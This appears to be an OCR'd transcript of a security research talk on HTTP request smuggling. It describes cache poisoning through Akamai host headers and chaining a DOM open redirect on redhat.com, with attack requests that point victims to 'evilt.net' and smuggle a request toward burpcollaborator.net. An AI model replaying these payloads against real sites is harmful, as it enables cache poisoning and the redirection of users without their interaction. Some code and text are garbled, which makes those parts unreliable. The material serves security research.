 thereby changing the host header I could  serve up content from any website on the  Akamai platform on these guys website,  and the front end Akamai would then  cache that so I could override their  home page with any content from any site  on the Akamai platform. this technique  also works pretty well on SAS providers, where you can simply just change the host name to a different  client of the SAS provider.
### Chaining DOM Problems
now red-hats  website was itself directly vulnerable  to desynchronization and while looking  for a vulnerability to chain with  requests smuggling on there, I found this dom-based open redirect, and  that raised an interesting challenge
```HTTP
GET /assets/idx?redir=//redhat.com@evilt.net/ HTTP/1.1
Host: www.redhat.com
```
~~~Js
<script>
var destination = getQueryParams('redir)
[low quality filtering]
document.location = destination
</script>
~~~
because with requests smuggling, we  controlled the URL that the backend  server thinks the user is on, but we  don't control the URL in the victim's  browser. so, when this get query param  function is executed that's executed in  the victim's browser, so we can't  directly exploit this vulnerability, but  by finding a local redirect on the  target I could effectively chain that  with the Dom based  redirect and gain  control of the URL in their users  browser and exploit this issue. 
```HTTP
GET /en/search?dest=../idx?redir=... HTTP/1.1
Host: www.redhat.com
```
~~~Response
HTTP/1.1 301 Found
Location: /assets//idx?redir=//redhat.com
~~~
and  that's a generic technique that will  work, that will let you combine any Dom  based issue that looks at the URL with  request smuggling to exploit people  without user interaction.
### Redirects with teeth

now a quite a  few local redirects actually turn into  open redirects in the presence of  requests smuggling, because we can change  the smuggled host header.
in particular  there's a default behavior on Apache and  most versions of iis, whereby if you try  and access a folder and you don't  specify the training slash they give you  a redirect to put the slash on and they  populate the host name in that redirect  using the host header. 
```HTTP
POST / HTTP/1.1
Host: redacted.com
Content-length: 57
Transfer-Encoding: chunked

0

POST /etc HTTP/1.1
Host: burpcollaborator.net
X: X GET /etc/libs/xyz.js HTTP/1.1
```
~~~response
 HTTP/1.1 301 Movev Permanently  
 Location: https://burpcollaborator.net/etc/ 
~~~
